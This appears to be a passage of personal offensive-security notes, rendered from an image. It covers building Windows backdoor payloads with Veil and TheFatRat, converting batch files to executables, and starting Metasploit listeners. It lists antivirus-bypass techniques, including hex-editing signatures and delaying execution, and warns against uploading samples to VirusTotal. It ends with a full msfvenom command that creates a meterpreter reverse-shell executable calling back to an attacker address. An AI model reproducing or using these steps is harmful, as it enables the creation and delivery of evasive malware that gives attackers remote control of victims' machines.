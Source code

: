 	$ generate

	$ payload - will ask for the name of the output file

	* will output a .bat file that we need to convert to .exe

	* git clone https://github.com/tokyoneon/B2E

	* use wine to execute Bat_To_Exe_Converter_(Installer).exe 
	* in Veil, there will be generated a second path for the metasploit framework ; copy the path and run

		$ msfconsole

		$ resource /path/from/veil - will enable the listener automatically on the attacker machine

	* the payload.exe will have a detection rate at about 30-40%, a bit lower than msfvenom


## TheFatRat

	$ git clone https://github.com/Screetsec/TheFatRat

	$ cd TheFatRat

	$ chmod +x setup.sh && ./setup.sh

	$ fatrat - DO NOT UPLOAD TO VIRUSTOTAL

	$ 6 - select any other options

	$ 2 - create an .exe file with C# and Powershell FUD (fully undetectable)

	* set local host

	* set listening port

	* select output file name

	* select payload

	* /root/Fatrat_Generated/createexploit.exe - path to exploit

	* the listener wasn't automatically generated - use msfconsole


## AV bypass

A bypass won't last forever

Rules to bypass AV:

	- code your own exploits - need to know a programming language

	- hide malware signatures via Hexeditor

	- implement execution retardation 

+ Hexeditor

	$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.116.130 LPORT=5555 -f exe -o shell.exe - create a payload
